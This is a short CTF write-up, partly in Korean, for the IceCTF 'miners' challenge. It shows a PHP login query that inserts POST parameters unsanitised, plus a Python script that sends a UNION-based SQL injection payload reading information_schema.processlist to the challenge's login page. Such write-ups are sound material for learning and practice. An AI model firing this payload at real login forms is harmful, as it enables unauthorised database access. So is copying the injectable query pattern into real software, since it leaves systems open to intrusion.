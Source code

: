 ============================================================================================================
[IceCTF] Solve
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -}",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

server -> DB
================================================================================================================

- PHP 
- POST 파라미터: username, password

.. code-block:: sql

    SELECT * FROM users WHERE 
    username='$_POST["username"]' AND 
    password='$_POST["password"]'

|

union select 
================================================================================================================

- information_schema.processlist

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "http://miners.vuln.icec.tf/login.php"

    payload = {
        "username": "' union select 1,2,info from information_schema.processlist-- -",
        "password": "1",
    }

    r = requests.post(url, data=payload, verify=False)

    print r.content

|
